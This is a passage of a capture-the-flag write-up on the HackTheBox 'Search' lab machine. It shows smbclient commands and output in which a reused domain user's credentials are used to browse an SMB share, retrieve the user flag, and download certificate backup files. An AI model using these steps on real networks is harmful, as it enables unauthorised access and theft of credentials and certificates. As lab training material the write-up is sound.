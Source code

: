 ```shell
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\web_svc:{Redacted} 
```

As you can see, only domain user `Sierra.Frye`'s password haven't changed yet, thus it's valid credentials.

**Again, we can enumerate the SMB `RedirectedFolders$` share with `Sierra.Frye`'s credentials:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|17:42:32(HKT)]
└> smbclient //search.htb/RedirectedFolders$ -U "Sierra.Frye"
Password for [WORKGROUP\Sierra.Frye]:
Try "help" to get a list of possible commands.
smb: \> cd sierra.frye\
smb: \sierra.frye\> dir
  .                                  Dc        0  Thu Nov 18 09:01:46 2021
  ..                                 Dc        0  Thu Nov 18 09:01:46 2021
  Desktop                           DRc        0  Thu Nov 18 09:08:00 2021
  Documents                         DRc        0  Fri Jul 31 22:42:19 2020
  Downloads                         DRc        0  Fri Jul 31 22:45:36 2020
  user.txt                           Ac       33  Thu Nov 18 08:55:27 2021

		3246079 blocks of size 4096. 619588 blocks available
```

**Found `user.txt`! Let's `get` it:**
```shell
smb: \sierra.frye\> get user.txt 
[...]
```

**user.txt:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|17:39:04(HKT)]
└> cat user.txt  
{Redacted}
```

**Also, in `Sierra.Frye` domain user's profile, there's a `Backup` folder in `Downloads\`:**
```shell
smb: \sierra.frye\> cd Downloads\Backups\
smb: \sierra.frye\Downloads\Backups\> dir
  .                                 DHc        0  Tue Aug 11 04:39:17 2020
  ..                                DHc        0  Tue Aug 11 04:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 23:04:11 2020
  staff.pfx                          Ac     4326  Tue Aug 11 04:39:17 2020
```

**Download both of them:**
```shell
smb: \sierra.frye\Downloads\Backups\> mget *
Get file search-RESEARCH-CA.p12? y
[...]
Get file staff.pfx? y
[...]
```
